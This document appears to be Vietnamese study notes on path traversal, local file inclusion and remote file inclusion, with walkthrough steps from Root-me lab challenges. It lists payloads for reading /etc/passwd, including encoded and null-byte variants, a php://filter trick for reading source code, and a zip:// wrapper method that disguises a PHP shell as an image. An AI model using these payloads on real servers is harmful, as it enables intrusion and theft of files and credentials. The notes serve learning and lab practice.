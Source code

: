 # Path traversal: cho phép đọc các tệp tùy ý trên máy chủ đang chạy ứng dụng sau cùng kiểm soát hoàn toàn máy chủ.
+window : sharefolder 
Các loại bypass trong path traversal::

- ../ trả về thư mục cha
+  ../../../etc/passwd
- Đường dẫn trực tiếp  /etc/passwd
- Lồng ../ : ....//....//....//etc/passwd
        or: ...\/....\/....\/etc/passwd
- Encode / = %252f: (2lan encode) 

%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd

%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66etc%25%32%66passwd

- Null byte: ../../../etc/paswd%00.

Root-me Directory traversal:
+ Kiểm tra với galerie=./
+ Đọc source-code -> galerie/.//86hwnX2r 
+ Test galerie=86hwnX2r -> source-code hiển thị password.txt


# Local file inclusion(LFI): cho phép tấn công(include) các tập tin từ hệ thông của máy chủ web vào trong mã nguỗn ứn dụn web 
- LFI root me:
+ Kiểm tra trên burp suite ta phát hiện có thể truy cập đến /admin
+ Test với ../admin ta thấy được file index.php -> thu được account admin: OpbNJ60xYpvAQU8
- Double Encoding
+ Test double encode với ../ : %252e%252e%252f -> .inc.php
+ Ko thấy gì khi cố gắng ép vào đó %252e%252e%252f
-> Khai thác php wrapper: php://filter/convert.base64-encode/resource=index/home/cv/...
-> thu được mã base64 
- Wrapper
page=view&id=cRv2juwsF
"tmp/upload/cRv2juwsF.jpg"
File upload được lưu trữ vào path với tên được sử thành id
+ Có thể sử dụng wrapper: zip://
("zip payload.zip payload.php;
mv payload.zip shell.jpg;
rm payload.php
zip://shell.jpg%23payload.php
" ) xử lý (nội dung)
# Remote file inclusion: Cho phép kẻ tấn công đọc và thực thi từ máy chủ bên ngoài vào trong mã nguồn ứng dụng web mà không được cho phép.(sử dujg url từ xa để chèn mã độc hại)
- Allow_url_include
url?page=http://localhost...
- Wrapper
+ php:// , data:// , zip:// , phar://

Có thể truy cập đến url khác (allow_url_include)
